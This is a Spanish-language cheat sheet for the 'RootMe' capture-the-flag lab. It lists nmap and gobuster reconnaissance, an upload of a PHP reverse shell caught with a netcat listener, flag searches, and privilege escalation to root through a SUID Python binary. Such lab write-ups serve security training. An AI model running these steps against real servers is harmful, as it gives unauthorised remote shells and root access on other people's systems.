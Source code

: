 ```markdown
# RootMe - Guía Rápida de Pasos y Comandos
IP: 10.10.XXX.XXX

## 1. Reconocimiento

*   Realiza un escaneo inicial de puertos y servicios:
    ```bash
    nmap -sV $TARGET
    ```
*   Ejecuta un escaneo más detallado con enumeración mediante scripts, guardando la salida:
    ```bash
    nmap -sC -sV -oA rootme.txt $TARGET
    ```
*   Descubre directorios web para encontrar puntos de subida:
    ```bash
    gobuster dir --url http://10.10.XXX.XXX/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
    ```
    *(Esto debería identificar un panel de subida y el directorio `/uploads/`)*

## 2. Obteniendo una Shell

*   Prepara una reverse shell en PHP (de PentestMonkey: [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)).
*   Actualiza el script de la shell con tu IP de `tun0` y el puerto `1234`.
*   Sube la shell a través del panel web.
*   Inicia un listener:
    ```bash
    nc -l -v -n -p 1234
    ```
*   Activa la shell accediendo al archivo subido en `/uploads/`.
*   Mejora la shell básica:
    ```bash
    python -c "import pty; pty.spawn('/bin/bash')"
    ```
*   Encuentra la bandera de usuario:
    ```bash
    find / -type f -name user.txt 2>/dev/null
    ```
    *(Luego usa `cat` sobre el archivo)*

## 3. Escalada de Privilegios

*   Busca binarios SUID:
    ```bash
    find / -type f -perm -4000 2>/dev/null
    ```
    *(Identifica `/usr/bin/python` como SUID)*
*   Usa GTFOBins ([https://gtfobins.github.io/](https://gtfobins.github.io/)) para el exploit SUID de Python.
*   Navega a `/usr/bin` y ejecuta:
    ```bash
    ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
    ```
*   Verifica el acceso root:
    ```bash
    whoami
    ```
    *(El resultado debe ser `root`)*
*   Localiza y lee `root.txt`.
```
